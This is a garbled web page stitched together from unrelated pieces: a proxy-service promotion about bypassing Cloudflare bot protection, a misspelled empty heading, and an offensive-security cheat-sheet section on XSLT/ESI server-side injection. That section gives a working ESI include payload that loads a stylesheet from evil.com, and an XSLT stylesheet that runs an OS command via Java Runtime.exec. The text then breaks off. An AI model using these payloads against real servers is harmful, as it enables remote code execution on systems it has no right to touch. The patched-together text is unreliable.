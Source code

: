 - [Smartproxy](https://prf.hn/click/camref:1100loxdG/[p_id:1100l442001]/destination:https%3A%2F%2Fsmartproxy.com%2Fscraping%2Fweb) are noted for their proprietary Cloudflare bypass mechanisms.
    

For those seeking an optimized solution, the [ScrapeOps Proxy Aggregator](https://scrapeops.io/proxy-aggregator/) stands out. This service integrates over 20 proxy providers into a single API, automatically selecting the best and most cost-effective proxy for your target domains, thus offering a superior option for navigating Cloudflare's defenses.

#### Reverse Enginering Cloudflare Unti bot Protection




# <font color="red">XSLT server side injection</font>
## Basic Information

 The attacker must be able to reflect a value with XML tags inside a page that is cached. Once a reflected value is found on the site, the following payload is reflected by the attacker in the HTTP response.

	<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
	</esi:include>

The stylesheet attribute will point to a malicious XSLT resource hosted on a remote server controlled by the attacker.

### XSL to RCE 
he XSLT processing is triggered automatically by ESI-Gate when the included tag has a remote stylesheet. By default, the XML parser in Java allows the import of Java functions. This can easily lead to arbitrary code execution as demonstrated in the following stylesheet sample.
```markup
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[touch /tmp/pwned]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
### Read Local File

read.xsl

Copy

